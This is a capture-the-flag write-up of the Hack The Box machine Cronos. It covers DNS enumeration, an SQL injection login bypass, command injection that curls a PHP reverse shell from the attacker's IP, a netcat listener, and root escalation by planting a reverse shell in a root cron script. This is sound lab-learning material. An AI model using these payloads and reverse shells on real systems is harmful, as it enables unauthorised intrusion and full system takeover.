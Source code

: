 # Cronos [HTB](https://app.hackthebox.com/machines/11)
![cronos-01]()


## Recon 

I start by adding the target to my `/etc/hosts` file, followed by an `nmap` scan:

```bash
nmap -sC -sV -A -p- cronos.htb -oN nmap.result
```

![namp-res-02]()

We have the following:

+ An SSH server on port 22.
+ A DNS server on port 53. 
+ A Apache server on port 80.

Let's start with the DNS server to see if we can query some useful information, then we can take a look at the Apache server.

### DNS port 53

Lets try to query for all the entries that the server is willing to disclose:

```bash
dig any cronos.htb @cronos.htb
```

![any-03]()

We got two new domains, `admin.cronos.htb` and `ns1.cronos.htb`. Im gussing the `admin` subdomain is tied to the Apache server. 

I also tried to pull off a zone transfer with:

```bash
dig axfr @cronos.htb
```

This failed, so i added the `admin.cronos.htb` subdomain to `/etc/hosts` and moved on to the Apcache server. 


### Apache Port 80


Lets navigate towards the main site at `http://cronos.htb/` 

![site-04]()

The main page hosts 5 links, all related to the `Laravel` web framework. I found the first link to be the most useful in getting a high-level overview of `Laravel`,  here is the bullet-points of the info.

+ `Laravel` is an open source PHP based framework, while they also recommend to download `Node` and `NPM`. 

+ There is an internal development server running on `http://localhost:8000`:

![development-05]()

Worth to keep that in mind for the future in case we ever need it. 

+ An `.env` config file located at the root of the application should hold sensetive information including encryption keys for cookies and possibly credentials.  

![env-06]()

I've tried to look for this file in the root of the site, wasnt able to find it. But lets keep an eye on that. 

The last link on the main site redirected me to `Laravel`'s Github page where we can find the source code. This is nice, and i read through it a bit, but it seems that the directory structure is different on our target. I tried to use directory treversal tricks to find juicy files but without much success.

So i decided to look online for some hacking tricks on `Laravel`, i found a few interesting articals like [this](https://labs.withsecure.com/publications/laravel-cookie-forgery-decryption-and-rce) one and [this](https://www.ambionics.io/blog/laravel-debug-rce) one, that describe more advanced attacks againts the EAS CBC chiper mode, and some serialized attacks againts PHP. 

Before delving into these sorts of attacks i decided to take a look at the `admin.cronos.htb` subdomain.

## admin.cronos.htb


If we open our browser and navigate towards `http://admin.cronos.htb` we are greeted to a login page:

![login-07]()

At first i tried to brute force this page using `hydra`:

```bash
ydra -l admin -P  /usr/share/wordlists/rockyou.txt admin.cronos.htb http-post-form "/index.php:username=^USER^&password=^PASS^:invalid"
```

While this was going i decided to poke around for SQL injection. At first i tried to generate an error based repsonse, but this didnt work for me. So instead i focused on Boolean payloads when i found that this one works:

```sql
' OR NOT 1120=-1120-- tGvo
```

I input this as the username, and the password i just type `admin`. This gets me past the login page:

![logged-08]()

Looks like this page is running a command? lets look at the source code:

![source-09]()


So we can either run `traceroute` or `ping`, and we can supply to which host. All of this info is getting passed via a POST form, lets intercept that with Burp:

![initial-10]()

Lets try to modify these parameters to run something like `ls .`

![mod-11]()

It works:

![rce-12]()


This `config.php` looks interesting, lets see whats inside:

![empty-13]()

Looks like its empty, but the server renders it anyway, lets try to overwrite this file with a PHP reverse shell and execute it via the URL. I use [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)'s reverse shell. 

After you download the file make sure to update your IP and port info:

![update-14]()

Then rename the file to `config.php`, and start a python web server with:

```bash
python3 -m http.server 80
```

Now we can transfer this over to the target with the following request:

![upload-15]()

```bash
command=curl&host=http://10.10.14.61+-o+config.php
```

Lets start the listener with:

```bash
rlwrap nc -lnvp 443
```

Now when we open `http://admin.cronos.htb/config.php` the browser freezes, and we get a connection as the `www-data` user:

![shell-16]()


## Privilege Escalation

First thing i do when i land on the machine is upgrade to a TTY shell with:

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

After that i started to look around the system, searching for unusual files, or programs, though i couldnt find something really interesting. 

Next i decided to hunt down for SUID binaries with:

```bash
find / -perm -4000 2>/dev/null
```

Again, nothing useful came up here. 

After that i took a look at the running processes with:

```bash
ps auxww
```

Nothing unusual. So i decided to look at `/etc/crontab` and this is where i found something intersting:

![crontab-17]()

 
In essence,  root runs the `/var/www/laravel/aristan` file first and formost, lets take a look at this file:

![aristal-18]()

A simple PHP file, if we add a reverse shell line right at the top, wouldnt that give us a shell as root regarldess of what should have happened next?  

I copy the file over to my kali machine where I can comfortably edit the file with `VI`. Then i add the following two lines at the top:

```php
$sock=fsockopen("10.10.14.61", 443);
exec("/bin/bash -i <&3 >&3 2>&3");
```

![add-19]()

I rename the orginal one on the target and transfer my variant with a python server. 


I then start my listener and get a connection one the cron-job is executed:

![root-20]()
